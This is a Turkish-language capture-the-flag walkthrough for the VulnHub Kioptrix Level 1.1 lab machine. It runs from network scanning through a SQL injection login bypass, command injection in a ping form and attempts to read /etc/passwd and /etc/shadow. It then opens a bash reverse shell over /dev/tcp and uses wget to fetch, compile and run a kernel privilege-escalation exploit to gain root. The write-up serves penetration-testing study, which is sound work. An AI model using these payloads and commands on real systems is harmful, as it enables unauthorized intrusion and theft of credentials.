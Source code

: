 Arkadaşlar merhaba;

Bu yazımda vulnhub.com üzerinde yayınlanmış olan Kioptrix1.1#2 makinasının çözümünü anlatmaya çalışacağım.

###### Linkler : ######
	
http://www.kioptrix.com
https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

###### Çözüm : ######

İlk olarak benim kullandığım VMware’da Kali’mi ve Kioptrix’i ayaklandırıyorum. Tabi ki de yapacağım ilk işlem hedef makinamın IP adresini bulmak olacak. Bunun için ilk önce Kali makinamın IP adresini buluyorum.

    $ ifconfig
![IP Adresi Bulma](/Kioptrix1.1-2/pics/1.png "ifconfig")

Daha sonra Kali’min bulunduğu scope taki IP’leri tarayarak devam ediyorum. 

	$ netdiscover -i eth0 -r 192.168.1.0/24
![Scope Tarama](/Kioptrix1.1-2/pics/2.png "netdiscover")

Ve gördüğümüz gibi IP adresim geldi😊 IP adresimi bulduktan sonra yapacağımız şey hemen bir nmap taraması yapmak olacak ki açık portlardan zafiyet bulabilecek miyim kontrol etmeliyim.
	
	$ nmap -sS -sV 192.168.1.22
![Port Tarama](/Kioptrix1.1-2/pics/3.png "nmap")

Gördüğümüz gibi açık 6 adet port bulunmakta. Burada hemen 80 portunda çalışan http servisi dikkatimi çekiyor ve tarayıcımdan hedef makinanın IP adresini girerek web sitesinde ne var ona bakıyorum. 

![Http Servisi](/Kioptrix1.1-2/pics/4.png "Http Servisi")

Ve karşıma bir admin paneli geliyor. MySQL servisi kullanıldığını da bildiğim için (3306 portu) hemen sql injection denemesi yapıyorum 😊
Bu noktada sayfanın arka planda aşağıdaki gibi bir SQL Query kullandığını düşünerek 

	SELECT * FROM users WHERE username='' AND password=''

Aşağıdaki sql injection kodunu username ve password bölümlerine girerek ,
	
	1’ or ‘1’=’1

Sorguyu aşağıdaki şekle getirmeyi amaçlıyorum:


	SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'

Eğer tahminim doğruysa basitçe username 1 ise veya 1=1 ise ve password de 1 veya 1=1 ise beni içeri al demiş oluyorum😊 ki herkesin bildiği gibi 1=1 her zaman doğrudur ve sorguyu bu şekilde bypass etmiş olurum.
![Ping Panel](/Kioptrix1.1-2/pics/5.png "Ping Panel")

Mükemmel!  Sorguyu aştık.😊 Karşıma ping atmak için bir komut paneli geldi. Kendi hostuma ping atarak deniyorum.
![Ping Try](/Kioptrix1.1-2/pics/6.png "Ping Try")

Evet ping komutu doğru çalışıyor ve gelen sayfadan gördüğüm üzere (url’ye bakabilirsiniz /pingit.php) sayfa php kodları ile çalışıyor. Ben de hemen bir ; koyarak bypass denemesi yapıyorum.
    
    $whoami
![whoami](/Kioptrix1.1-2/pics/7.png "whoami")

Oldu! 😊 Sistem komutlarını çalıştırabildiğimi görüyorum ve ilk önce parolaları bulabileceğim /etc/passwd ve /etc/shadow dosyalarını okumaya çalışıyorum.

![etc](/Kioptrix1.1-2/pics/8.png "etc")
![etc](/Kioptrix1.1-2/pics/9.png "etc")

Resimlerden görüldüğü üzere /etc/shadow dosyasını okuyamıyorum. Başka bir yol denemem lazım.
Ben de Reverse Shell almayı deniyorum. 
İlk önce netcat ile 443 portumu dinlemeye açıyorum.

    $ nc -nvlp 443
    
![netcat](/Kioptrix1.1-2/pics/10.png "netcat")

Daha sonra reverse Shell almak için pentestmonkey.net sitesinden bash shellini alıyorum ve kendime göre düzenleyip sitedeki ping command promptuma yazıyorum.

    $ bash -i >& /dev/tcp/192.168.1.22/443 0>&1 (Buradaki ip adresi kalimin ip’si ve port da dinlemeye açtığım port.)
Submit butonuna bastığımda hedef makinaya bağlantı sağlandığını ve yetkisiz bir Shell ile komut çalıştırabildiğimi görüyorum 😊

![Reverse Shell](/Kioptrix1.1-2/pics/11.png "Reverse Shell")

Şimdi yapmam gereken yetki yükseltip sistemde root olmaya çalışmak. Aşağıdaki komutları çalıştırarak hedef makinamın hangi işletim sistemini kullandığını ve versiyon bilgilerini öğreniyorum.

    $  cat /etc/*-release
    $  cat /proc/version
![Version](/Kioptrix1.1-2/pics/12.png "Version")

Versiyon bilgilerini de öğrendiğime göre internette ufak bir Google search ile bu Linux versiyonunda yetki yükseltme sağlayan https://www.exploit-db.com/exploits/9542/ bu exploiti buluyorum. Şimdi exploitimi kendi Kali’me indirip hedef makinaya kendi Kali’mden wget ile çekiyorum.
Bunu yapmak için indirdiğim exploiti kendi Kali’mde /var/www/html dosyasına atıp apache servisimi başlatıyorum ki wget ile ulaşabileceğim internete açık bir sunucu olsun.

    $ service apache2 start ( Bunu kendi Kali’mde yapıyorum. )
    $ cd /tmp ( tmp dizinine geçiyorum ki dosya yazıp okuyabileceğim bir yer olmalı. Bunu hedef makinada yapıyorum exploiti çekeceğim yer burası olacak. )
    $ wget http://192.168.1.23/9542.c ( Bunu Shell ile ulaştığım hedef makinada yapıyorum. )
![wget](/Kioptrix1.1-2/pics/13.png "wget")

Şimdi hedef makinaya yüklediğim exploit kodu C dilinde yazılmış olduğu için GCC ile compile ediyorum ve kodumu çalıştırıyorum. ( Artık exploiti hedef makinaya çektiğim için GCC ile compile ve kodu çalıştırma işlemlerimi hedef makina üzerinde yapıyorum. )

    $ gcc 9542.c 
    $ ./a.out
Daha sonra `whoami` komutu çalıştırdığımda sistemde artık root olduğumuzu görebiliriz.

    $ whoami
![root](/Kioptrix1.1-2/pics/14.png "root")
